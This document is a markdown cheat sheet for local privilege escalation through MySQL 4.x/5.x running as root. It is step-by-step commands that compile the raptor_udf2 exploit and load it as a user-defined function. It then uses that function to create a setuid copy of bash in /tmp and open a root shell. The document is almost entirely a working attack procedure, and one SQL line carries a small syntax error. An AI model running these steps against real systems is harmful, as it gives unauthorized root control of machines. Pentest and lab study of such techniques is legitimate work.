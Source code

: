 # MySQL 4.x/5.x

## Enumerate programs running

```bash
$ ps aux | grep "^root"
```

Check MySQL configuration:
```bash
$ cat /etc/mysql/mariadb.conf.d/50-server.cnf | grep -v "#" | grep "user"
user = root
```

## Prepare the exploit
### Download and compile it
- Exploit: https://www.exploit-db.com/exploits/1518

```bash
$ gcc -g -c raptor_udf2.c
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

## Create MySQL function
### Connect to MySQL
```bash
$ mysql -u root -p
```

### Find the plugins directory
```bash
mysql> show variables like 'plugin_dir';
+---------------+---------------------------------------------+
| Variable_name | Value                                       |
+---------------+---------------------------------------------+
| plugin_dir    | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
+---------------+---------------------------------------------+
```

### Load the shared object into MySQL

```bash
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/raptor_udf2.so';);
mysql> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
mysql> exit
```

## Get root shell
### Execute rootbash shell

```bash
$ /tmp/rootbash -p
```